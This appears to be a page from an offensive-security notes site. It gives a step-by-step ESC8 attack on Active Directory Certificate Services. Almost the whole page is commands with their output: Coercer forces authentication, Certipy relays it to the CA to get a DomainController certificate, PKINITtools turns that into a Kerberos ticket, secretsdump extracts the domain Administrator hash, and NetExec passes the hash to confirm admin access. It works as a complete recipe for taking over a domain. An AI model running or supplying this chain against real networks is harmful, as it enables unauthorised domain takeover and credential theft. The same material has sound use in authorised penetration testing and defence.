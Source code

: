 ```yaml
---
title : "ESC8"
# pre : ' '
description : "ESC8 - Abuse Active Directory Certificate Services."
date : 2023-12-03T06:03:37+01:00
# hidden : true
# draft : true
weight : 20
# tags : ['']
---
```


---

ESC8 - Abuse Active Directory Certificate Services.

## Requirements

- [Coercer]({{< ref "tools/framework/coercer" >}})
- [Certipy]({{< ref "tools/other/certipy" >}})
- [Impacket]({{< ref "tools/framework/impacket" >}})
  - `secretsdump.py`
- [PKINITtools]({{< ref "tools/framework/pkinittools" >}})
  - `gettgtpkinit.py`
- [NetExec - optional]({{< ref "tools/framework/netexec" >}})

## Examples

### ESC8 from a 'random' server

**Note:** Start Certipy in relay mode before triggering authentication with Coercer.

#### Use Coercer.py to Trigger Authentication on a non-Domain Controller

- `-t` is the target server to trigger the authentication on
- `-l` is the listening host that is going to relay

```plain
$ sudo ./Coercer.py coerce -t 10.10.10.10 -u esc8-user@offsec.nl -l 10.10.10.11
Password:
[info] Starting coerce mode
[info] Scanning target 10.10.10.10
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,49669,49702,49710,49747
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.10.10.11\E4UAA0b\aa') 
Continue (C) | Skip this function (S) | Stop exploitation (X) ? c
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [+] (ERROR_BAD_NETPATH) MS-EFSR──>EfsRpcAddUsersToFile(FileName='\\10.10.10.11\OrF5Mwc2w\file.txt\x00') 
```

#### Certipy in Relay Mode

```plain
$ sudo certipy relay -target 'http://CA01.offsec.nl' -ca 'CA01.offsec.nl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://CA01.offsec.nl/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
OFFSEC\MGMT_SRV$
[*] Requesting certificate for 'OFFSEC\\MGMT_SRV$' based on the template 'Machine'
[*] Got certificate with DNS Host Name 'MGMT_SRV.offsec.nl'
[*] Certificate object SID is 'S-1-5-21-1234567890-123456789-09876543-56789'
[*] Saved certificate and private key to 'MGMT_SRV.pfx'
[*] Exiting...
```

### ESC8 from a Domain Controller

#### Use Coercer.py to Trigger Authentication on a Domain Controller

- `-t` is the target server to trigger the authentication on
- `-l` is the listening host that is going to relay

```plain
$ sudo ./Coercer.py coerce -t 10.10.10.10 -u esc8-user@offsec.nl -l 10.10.10.11
Password:
[info] Starting coerce mode
[info] Scanning target 10.10.10.10
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,49669,49702,49710,49747
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.10.10.11\E4UAA0b\aa') 
Continue (C) | Skip this function (S) | Stop exploitation (X) ? c
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [+] (ERROR_BAD_NETPATH) MS-EFSR──>EfsRpcAddUsersToFile(FileName='\\10.10.10.11\OrF5Mwc2w\file.txt\x00') 
```

#### Certipy in Relay Mode to Certificate Authority

```plain
$ sudo certipy relay -target 'http://CA01.offsec.nl' -ca 'CA01.offsec.nl' -template DomainController 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://CA01.offsec.nl/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
OFFSEC\DC01$
[*] Requesting certificate for 'OFFSEC\\DC01$' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'DC01.offsec.nl'
[*] Certificate object SID is 'S-1-5-21-1234567890-123456789-09876543-56789'
[*] Saved certificate and private key to 'DC01.pfx'
[*] Exiting...
```

#### Get TGT from Certificate

```plain
$ python3 gettgtpkinit.py -cert-pfx ~/DC01.pfx "offsec.nl/DC01$" "DC01.ccache" -dc-ip 10.10.10.25
2023-12-08 16:18:33,939 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-12-08 04:20:13,042 minikerberos INFO     Requesting TGT'
INFO:minikerberos:Requesting TGT
2023-12-08 04:20:13,052 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-12-08 04:20:13,053 minikerberos INFO     12345678911
INFO:minikerberos:12345678911
2023-12-08 04:20:13,056 minikerberos INFO     Saved TGT to file
```

#### Secretsdump.py Extract Domain Administrator Hash

```plain
$ secretsdump.py -k 'offsec.nl/DC01$@DC01.offsec.nl' -debug -just-dc-user administrator -dc-ip 10.10.10.25
Impacket v0.10.0 - Copyright 2022 Fortra
Password:
[+] Using Kerberos Cache: DC01.ccache
[+] SPN CIFS/DC01.offsec.nl@offsec.nl not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/offsec.nl@offsec.nl
[+] Using TGT from cache
[+] Trying to connect to KDC at 10.10.10.25
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Trying to connect to KDC at 10.10.10.25
[+] Calling DRSCrackNames for administrator 
[+] Calling DRSGetNCChanges for {} 
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=Administrator,CN=Users,DC=OFFSEC,DC=local
offsec.nl\Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
[...]
[*] Cleaning up... 
```

#### NetExec Check Privileges

```plain
$ nxc smb 10.10.10.25 -u administrator -H :97f2592347d8fbe42be381726ff9ea83             
SMB         10.10.10.25  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:offsec.nl) (signing:True) (SMBv1:False)
SMB         10.10.10.25  445    DC01             [+] offsec.nl\administrator:97f2592347d8fbe42be381726ff9ea83 (Pwn3d!)
```

## URL list

- [Crowe.com - Exploiting AD CS: A quick look at ESC1 and ESC8](https://www.crowe.com/cybersecurity-watch/exploiting-ad-cs-a-quick-look-at-esc1-esc8)
